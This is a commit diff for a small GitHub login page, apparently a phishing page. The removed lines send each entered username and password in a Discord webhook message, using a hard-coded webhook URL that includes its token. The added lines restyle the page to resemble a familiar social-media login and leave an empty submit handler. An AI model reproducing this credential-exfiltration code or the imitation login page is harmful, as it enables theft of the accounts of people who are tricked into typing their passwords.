

Before and after one commit to piptheDEV/Login-page, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 196-598 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,64 +3,60 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>website</title>
+  <title>Login</title>
   <style>
     body {
       display: flex;
       justify-content: center;
       align-items: center;
       height: 100vh;
-      background: #f2f2f2;
       font-family: sans-serif;
+      background-color: #fafafa;
     }
-    .box {
+    .container {
       background: white;
-      padding: 30px;
+      padding: 20px;
+      border: 1px solid #dbdbdb;
       border-radius: 10px;
-      box-shadow: 0 0 10px #aaa;
+      width: 300px;
+      text-align: center;
     }
     input {
-      display: block;
-      margin: 10px 0;
+      width: 90%;
       padding: 10px;
-      width: 100%;
+      margin: 8px 0;
+      border: 1px solid #ccc;
+      border-radius: 5px;
     }
     button {
+      width: 95%;
       padding: 10px;
-      width: 100%;
-      background: #3897f0;
+      background-color: #3897f0;
       color: white;
       border: none;
       border-radius: 5px;
+      margin-top: 10px;
     }
   </style>
 </head>
 <body>
-  <div class="box">
+  <div class="container">
     <h2>Login</h2>
-    <input type="text" id="username" placeholder="Username" />
-    <input type="password" id="password" placeholder="Password" />
-    <button onclick="sendData()">Submit</button>
-    <p style="font-size: 12px; color: red; margin-top: 10px;">
-      Note: this is a website for login, only
-    </p>
+    <form id="login-form">
+      <input type="text" id="username" placeholder="Username" required />
+      <input type="password" id="password" placeholder="Password" required />
+      <button type="submit">Submit</button>
+    </form>
   </div>
 
   <script>
-    function sendData() {
+    document.getElementById("login-form").addEventListener("submit", async function (e) {
+      e.preventDefault();
+
       const username = document.getElementById("username").value;
-      const password = document.getElementById("password").value;
+      const password = document.getElementById("password").value
 
-      const webhookURL = "https://discord.com/api/webhooks/1376166182880673904/Rn27hb5fXT6jDQZT9VqBdPLbXTF3Hne8CsGdNJcshv66iM9yYvLW58Bp_Amm9dYL-yoy";
-
-      fetch(webhookURL, {
-        method: "POST",
-        headers: { "Content-Type": "application/json" },
-        body: JSON.stringify({
-          content: `New login:\nUsername: ${username}\nPassword: ${password}`
-        })
-      })
-    }
+    });
   </script>
 </body>
-    </html>
+</html>
```
